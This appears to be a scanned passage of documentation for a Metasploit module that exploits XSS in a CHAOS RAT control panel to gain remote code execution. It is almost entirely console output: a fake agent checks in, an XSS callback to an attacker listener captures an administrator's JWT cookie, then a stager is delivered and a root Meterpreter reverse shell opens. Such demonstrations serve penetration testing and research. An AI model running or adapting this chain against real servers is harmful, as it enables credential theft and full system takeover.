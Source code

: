 ```
[*] Attempting exploitation through Agent
[*] Server address: 172.17.0.2
[*] Server port: 8080
[*] Server JWT Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhdXRob3JpemVkIjp0cnVlLCJleHAiOjE3NDQ4MDY5MzgsInVzZXIiOiJkZWZhdWx0In0.3zlOZ8RI_YdDqEgNbt20oL7R30Ry5JgwJVCEqx0WSUA
[*] Fake MAC for agent: f8:16:5a:23:5b:74
[*] Listening for XSS response on: http://111.111.10.147:8888/
[*] Performing Callback Checkin
[*] WebSocket connecting to receive commands
[*] Performing Callback Checkin
```

Log in to the website, click `Acion`, `Remote Shell` on the
fake agent we've added to the list. Now type anything into
the input box and click `Send`.

```
[+] Received agent command 'id', sending XSS in return
[*] Received GET request.
[+] Received cookie: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhdXRob3JpemVkIjp0cnVlLCJleHAiOjE3MTMzNzA0ODksIm9yaWdfaWF0IjoxNzEzMzY2ODg5LCJ1c2VyIjoiYWRtaW4ifQ.qGbOOAc8RG6Hsd2SJKzGVAczJJ7KwEI2MxdIojM06d4
[+] Detected Agents
Live Agents
===========

 IP         OS       Username    Hostname  MAC
 --         --       --------    --------  ---
 111.111.1  Windows  Administra  DC01      86:89:42:d1:dc
 1.147               tor (Admin            :a7
                     istrator)
 111.111.1  Windows  Administra  DC01      f8:16:5a:23:5b
 1.147               tor (Admin            :74
                     istrator)

[*] Client 172.17.0.2 requested /mh1dne7HFFTZ0wiiiWgmfw
[*] Sending payload to 172.17.0.2 (curl/7.74.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (111.111.10.147:4444 -> 172.17.0.2:41290) at 2024-04-17 15:19:22 +0000

msf exploit(linux/http/chaos_rat_xss_to_rce) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 11.4 (Linux 5.19.0-43-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
